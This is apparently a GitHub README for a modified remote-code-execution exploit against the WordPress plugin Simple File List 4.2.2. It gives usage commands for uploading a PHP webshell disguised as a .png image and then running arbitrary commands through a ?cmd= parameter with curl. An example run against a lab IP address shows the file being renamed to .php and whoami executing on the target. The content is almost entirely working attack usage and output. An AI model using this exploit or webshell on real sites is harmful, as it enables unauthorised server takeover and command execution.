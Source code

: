 # Wordpress-Plugin-Simple-File-List-4.2.2---Remote-Code-Execution
Modified version of original exploit by coiffeur to add a php webshell for vulnerable Wordpress plugin: Simple File List 4.2.2

## Usage
1. Uploading the webshell

```bash
python exploit.py <url>
```
2. Execute RCE via uploaded webshell via GET request on target

```bash
curl <given url path to webshell>?cmd=<command to run on target>
```


## Example

```bash
└─$ python my_exploit.py http://192.168.229.105                                        
[ ] File 2383.png
[ ] File uploaded at http://192.168.229.105/wp-content/uploads/simple-file-list/2383.png
[ ] File moved to http://192.168.229.105/wp-content/uploads/simple-file-list/2383.php
[+] Exploit seem to work.
[+] GET request for RCE via php webshell: http://192.168.229.105/wp-content/uploads/simple-file-list/2383.php?cmd=<command to run on target>
                                                                                                                                                                                                                                             
....                                                                                                                                                                                                                                             
└─$ curl http://192.168.229.105/wp-content/uploads/simple-file-list/2383.php?cmd=whoami
http
                                                       
```
